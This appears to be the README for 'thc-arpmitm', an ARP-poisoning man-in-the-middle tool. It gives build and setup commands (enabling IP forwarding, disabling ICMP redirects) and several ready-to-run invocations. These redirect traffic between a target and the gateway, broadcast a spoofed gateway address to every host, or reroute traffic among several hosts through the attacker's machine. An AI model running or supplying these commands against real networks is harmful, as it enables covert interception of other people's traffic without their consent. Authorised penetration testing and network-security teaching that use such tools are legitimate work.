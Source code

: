 # ARP Man-in-the-Middle

A tool to redirect hosts on a local network to your own computer (to intercept the traffic - aka ARP poisoning).  

Direct Download: [https://github.com/hackerschoice/thc-arpmitm/tree/master/releases](https://github.com/hackerschoice/thc-arpmitm/tree/master/releases)

**Install:**
```
$ ./configure --enable-static
$ make all
```

Setup:
```
echo 1 >/proc/sys/net/ipv4/ip_forward
echo 0 | tee /proc/sys/net/ipv4/conf/*/send_redirects
```

**Example 1:**
```
# ./thc-arpmitm -t 10.0.1.111
```
The above redirects all traffic between the target '10.0.1.111' and the Internet through your computer.

**Example 2:**
```
arpmim -v 00:02:13:37:73:50 10.0.1.254:11:11:22:22:33:33 10.0.1.111:44:44:55:55:66:66
```
A classic redirect. The above redirects all traffic between 10.0.1.254 and 10.0.1.111 through your computer. Where 10.0.1.254 is the default gateway then this makes it identical to Example 1. Example 1 finds out all the MAC's automatically.

**Example 3:**
```
# ./thc-arpmitm 00:02:13:37:73:50 255.255.255.255 10.0.1.254
```
The above will use 1 broadcast packet to tell *everyone* that 10.0.1.254 is you now.

**Example 4 the bold:**
```
# ./thc-arpmitm -A 00:02:13:37:73:50 255.255.255.255 10.0.0.1 10.0.0.2 10.0.0.3 10.0.0.4
```
The above will redirect all local traffic between the 4 hosts through your computer.

**Features:**
- Auto-Mode
- Broadcast Mode: Send 1 ARP-broadcast to ALL hosts and redirect ALL hosts with a single packet (be warned!)

**Supported Platforms:**
1. Linux
1. MacOS
1. FreeBSD

**Changelog:**  
2000 Internal team-teso release by xdr/skyper  
2001 Leaked to the public  
2020 Resurrection. Portability and added AUTO-MODE for beginners.  
2040 stay tuned!!!  

shoutz :+1: #oscar, ADM

